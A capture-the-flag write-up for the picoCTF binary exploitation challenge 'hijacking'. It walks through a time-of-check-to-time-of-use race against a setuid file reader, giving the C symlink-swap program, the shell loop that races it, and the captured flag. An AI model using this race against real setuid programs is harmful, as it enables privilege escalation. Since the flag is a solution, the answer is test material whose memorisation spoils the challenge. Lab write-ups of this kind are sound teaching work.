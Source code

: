 # **hijacking**

## **Overview:**
---
Category: Binary Exploitation

Points: 200

## **Description**
---
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
Additional details will be available after launching your challenge instance.

## **Hints**
None.

## **Approach**
I search about toctou attack (Time-of-check to time-of-use) and an attacker can exploit the race condition between the access and open to trick the setuid victim into overwriting an entry in the system password database. TOCTOU races can be used for privilege escalation to get administrative access to a machine.

I search on youtube and i found this [video](https://www.youtube.com/watch?v=gXVJtXasEYo&t=443s), let's solve this challenge.

Firstly, create a file to perform toctou attack.
```
echo "#include <stdio.h>" >> test.c
echo "#include <unistd.h>" >> test.c
echo "#include <string.h>" >> test.c
echo "int main(int argc, char * argv[]){" >> test.c
echo "if(unlink(argv[1]) != 0){" >> test.c
echo "return -1;}" >> test.c
echo "if(symlink(\"/home/ctf-player/flag.txt\", argv[1]) != 0){" >> test.c
echo "return -1;}" >> test.c
echo "}" >> test.c
gcc -o hack test.c
```
Then make a temp file: temp
> echo hello >> temp

Then let's attack:
>  while true;do rm temp;echo hello > temp;./txtreader temp & ./hack temp;done >> res  

And we got the result:

>cat res | grep pico


## **Flag**
---
>**picoCTF{ToctoU_!s_3a5y_007659c9}**










